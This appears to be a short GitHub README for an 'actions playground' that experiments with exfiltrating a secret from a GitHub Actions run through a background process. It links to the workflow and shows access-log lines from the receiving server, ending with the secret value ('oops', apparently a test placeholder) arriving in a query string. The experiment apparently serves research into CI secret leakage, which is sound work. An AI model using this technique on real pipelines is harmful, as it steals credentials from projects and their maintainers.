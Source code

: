 github actions playground
=========================

# exfiltrate secret with background process

- <https://github.com/delan/actions-playground/actions/workflows/exfiltrate_background.yml>
- <https://github.com/delan/actions-playground/actions/runs/16309745444/job/46062882688#step:3:236>

```
172.172.87.49 - - [16/Jul/2025:11:37:08 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:09 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:11 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:13 +0800] "GET /secret/found?value=oops HTTP/1.1" 404 274 "-" "-"
```
